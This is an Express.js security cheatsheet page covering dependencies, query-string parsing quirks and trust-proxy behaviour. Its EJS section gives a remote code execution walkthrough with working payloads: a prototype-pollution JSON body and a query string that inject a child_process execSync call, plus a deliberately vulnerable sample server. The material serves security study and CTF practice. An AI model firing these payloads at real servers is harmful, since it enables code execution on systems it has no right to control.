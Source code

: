 ```yaml
---
title: "Express.js"
description: "Cheatsheet on Express.js library"
lead: "Cheatsheet on Express.js library"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "topics"
weight: 620
toc: true
---
```


## Express stack

[Express](https://www.npmjs.com/package/express) is a minimalist web framework for Node.js which has 31 [dependencies](https://www.npmjs.com/package/express?activeTab=dependencies).

{{< details "List of dependencies" >}}
- [accepts](https://www.npmjs.com/package/accepts): Return a different typed respond body based on what the client wants to accept.
- [array-flatten](https://www.npmjs.com/package/array-flatten): Flatten nested arrays (e.g. `flatten([1, [2, 3]])` => `[1, 2, 3]`.
- [body-parser](https://www.npmjs.com/package/body-parser): HTTP request body parsing middleware (`req.body` property).
- [content-disposition](https://www.npmjs.com/package/content-disposition): Create and parse HTTP `Content-Disposition` header.
- [content-type](https://www.npmjs.com/package/content-type): Create and parse HTTP `Content-Type` header.
- [cookie](https://www.npmjs.com/package/cookie): Basic HTTP cookie parser and serializer.
- [cookie-signature](https://www.npmjs.com/package/cookie-signature): Sign and unsign cookies.
- [debug](https://www.npmjs.com/package/debug): JavaScript debugging utility (`debug(...)`, `DEBUG='*' node index.js`).
- [depd](https://www.npmjs.com/package/depd): Mark things deprecated.
- [encodeurl](https://www.npmjs.com/package/encodeurl): Encode a URL to a percent-encoded form, excluding already-encoded sequences.
- [escape-html](https://www.npmjs.com/package/escape-html): Escape string for use in HTML (HTML entity, e.g. `&` => `&amp;`).
- [etag](https://www.npmjs.com/package/etag): Generates HTTP ETags in HTTP responses.
- [finalhandler](https://www.npmjs.com/package/finalhandler): Function to invoke as the final step to respond to HTTP request.
- [fresh](https://www.npmjs.com/package/fresh): Check for caching using `if-none-match` and `etag` HTTP headers.
- [http-errors](https://www.npmjs.com/package/http-errors): Create HTTP errors.
- [merge-descriptors](https://www.npmjs.com/package/merge-descriptors): Merge objects using descriptors (call descriptors and merge).
- [methods](https://www.npmjs.com/package/methods):
- [on-finished](https://www.npmjs.com/package/on-finished):
- [parseurl](https://www.npmjs.com/package/parseurl):
- [path-to-regexp](https://www.npmjs.com/package/path-to-regexp):
- [proxy-addr](https://www.npmjs.com/package/proxy-addr):
- [qs](https://www.npmjs.com/package/qs):
- [range-parser](https://www.npmjs.com/package/range-parser):
- [safe-buffer](https://www.npmjs.com/package/safe-buffer):
- [send](https://www.npmjs.com/package/send):
- [serve-static](https://www.npmjs.com/package/serve-static):
- [setprototypeof](https://www.npmjs.com/package/setprototypeof):
- [statuses](https://www.npmjs.com/package/statuses):
- [type-is](https://www.npmjs.com/package/type-is):
- [utils-merge](https://www.npmjs.com/package/utils-merge):
- [vary](https://www.npmjs.com/package/vary):
{{< /details >}}

## Query string parsing

| URL                       | Content of request.query.foo in code                |
| ------------------------- | --------------------------------------------------- |
| `?foo=bar`                | `'bar'` (string)                                    |
| `?foo=bar&foo=baz`        | `['bar', 'baz']` (array of string)                  |
| `?foo[]=bar`              | `['bar']` (array of string)                         |
| `?foo[]=bar&foo[]=baz`    | `['bar', 'baz']` (array of string)                  |
| `?foo[bar]=baz`           | `{ bar : 'baz' }` (object with a key)               |
| `?foo[]=bar`              | `['bar']` (array of string)                         |
| `?foo[]baz=bar`           | `['bar']` (array of string - postfix is lost)       |
| `?foo[][baz]=bar`         | `[ { baz: 'bar' } ]` (array of object)              |
| `?foo[bar][baz]=bar`      | `{ foo: { bar: { baz: 'bar' } } }` (object tree)    |
| `?foo[10]=bar&foo[9]=baz` | `[ 'baz', 'bar' ]` (array of string - notice order) |
| `?foo[toString]=bar`      | `{}` (object where calling `toString()` will fail)  |

> Table from [OWASP - Node.js Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Nodejs_Security_Cheat_Sheet.html#perform-input-validation).

## Trust proxy

Enabling `trust proxy` will have the following impact:

- `req.hostname` = `X-Forwarded-Host`
- `req.protocol` = `X-Forwarded-Proto` (https or http or even an invalid name)
- `req.ip` and `req.ips` = `X-Forwarded-For`

The trust proxy setting is implemented using the [proxy-addr](https://www.npmjs.com/package/proxy-addr) package. See [docs](https://expressjs.com/en/guide/behind-proxies.html).

## EJS

[Embedded JavaScript templates (EJS)](https://www.npmjs.com/package/ejs) is a NodeJS library very often used by Express to create HTML templates.

### RCE on render compile

The following code is inside EJS ([lib/ejs.js](https://github.com/mde/ejs/blob/v3.1.9/lib/ejs.js#L509) - v3.1.9). If you control the value of both variables `client` and `escape`, you can get a RCE.

```js
function Template(text, opts) {
    // ...
    options.client = opts.client || false;
    options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;

    this.opts = options;
    // ...
  }

Template.prototype = {
    // ...
    compile: function () {
        var opts = this.opts;
        var escapeFn = opts.escapeFunction;

        if (opts.client) {
            src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
        }
        // ...
        // src is evaluated later
    }
}
```

{{< details "EJS RCE - Proof Of Concept" >}}
There are two options for controlling these variables.

1. Abuse server-side prototype pollution (SSPP)
2. Custom parameters to the render function of EJS

#### 1. SSPP

> Full article on [mizu.re](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce).

**TL;DR:**

```json
{
    "__proto__": {
        "client": 1,
        "escape": "1;return process.mainModule.require('child_process').execSync('id');"
    }
}
```

#### 2. Custom parameters of render

> Inspired from the challenge *Peculiar Caterpillar* of the [FCSC2023](https://france-cybersecurity-challenge.fr).

`req.query` will be equal to the `options` parameter passed to the `render` function of `Express`.

```js
require("express")()
.set("view engine", "ejs")
.use((req, res) => {
    res.render("index", { ...req.query })
})
.listen(3000);
```

The `render` function of `Express` calls the `renderFile` function of EJS.

- `render` => `renderFile` => `...` => `Template.new` => `Template.compile`

Here is the code of the `renderFile` function of EJS:

```js
var _OPTS_PASSABLE_WITH_DATA = ['delimiter', 'scope', 'context', 'debug', 'compileDebug',
  'client', '_with', 'rmWhitespace', 'strict', 'filename', 'async'];

// ...
exports.renderFile = function () {
    var args = Array.prototype.slice.call(arguments);
    var filename = args.shift();        // arg[0] = PATH of the template
    var opts = {filename: filename};

    // ...
    data = args.shift();                // arg[1] = {
                                        //    "settings": env, view engine, etag, ...,
                                        //    query string,
                                        //    "cache": false
                                        // }
    viewOpts = data.settings['view options'];
    if (viewOpts) {
      utils.shallowCopy(opts, viewOpts);
    }

    // 'client' is allowed to be copied
    utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA_EXPRESS);
    // ...

    return tryHandleCache(opts, data, cb);
};
```

The `opts` variable is then passed to the `Template` object. So, we can get a RCE with the following query string.

```
?settings[view options][escape]=1;return+process.mainModule.require("child_process").execSync("id").toString();
&client=1
```

This query string is equals to:

```json
{
  settings: {
    'view options': {
      escape: '1;return process.mainModule.require("child_process").execSync("id").toString();'
    }
  },
  client: '1'
}
```
{{< /details >}}
